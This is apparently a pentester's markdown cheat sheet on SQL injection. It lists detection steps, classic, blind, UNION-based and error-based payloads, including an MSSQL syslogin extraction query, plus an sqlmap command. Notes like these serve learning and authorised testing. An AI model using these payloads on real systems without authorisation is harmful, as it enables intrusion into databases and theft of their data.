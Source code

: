 
## SQL Testing :


- __Define__ all the user inputs and fields 

- __Confirm__ the web app backend runs SQL. One way of confi rming that the application is interacting with a backend
              database is to submit the SQL wildcard character % in a given parameter

- __Submit a single quotation__ mark as the item of data you are targeting.


- Observe whether an error occurs, or whether the result differs from the original in any other way.
  

- __submit two single quotation__ marks together for testing. Sometimes one single quote is not enough to show the error.


__Basic Payloads___


    >> ' OR 1=1 ;--
    
    >> ') OR 1=1; --
    
    
- __URL encodings__ are necessary whether you are editing the parameter’s  value directly from your browser, with an intercepting 
                    proxy, or through any other means.
    
    

&nbsp; 
 &nbsp; 
 &nbsp; 
   
### Blind SQL : 

This type of SQL injection is based on booleans : True or False .


- ' and 'a'='a

- ' and 'a'='b

- ' and substring(@@version,1,1)='5   &nbsp; |  &nbsp; find the version of the db


if you get a error means that SQL vulnerability is error based, if not means blind SQl.

For Blind SQL, we need to focus on the behavior of the application and try different queries :

>>> ' and 'a'='a    |  if data displayed mean that there is SQL vulnerability 


>>> ' UNION SELECT null;-- - |  this command is used to enumerate the database in order to know the number of columns it has


>>>  ' UNION SELECT "else1";-- - | test the query with string,or intger to see the type of data in the columns

>>>> 99999 ' UNION SELECT null;-- - |  to display our entered data on the fields


>>>  99999 UNION SELECT @@version;| @@version is to know the version of the db

>>>




Automate the process of SQL blind
>> script 

&nbsp; 
 &nbsp; 
 &nbsp; 
   
### Band SQL:

- ' and 'a'='a

- ' and 'a'='b

- 9999' UNION SELECT name,222,'else1' FROM master.syslogin; --

### Error based SQL:

- 1 or db_name()=1);

- 1 or db_name(0)=1) | increase the number until the database does not show any errors

- 

 
 &nbsp; 
 &nbsp; 
 &nbsp; 
   
### SQLmap:

- sqlmap  &nbsp; -u URL  &nbsp; -p search  &nbsp; --technique=U |  &nbsp; U for Union Selection



## [PentesMonkey CheatSheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
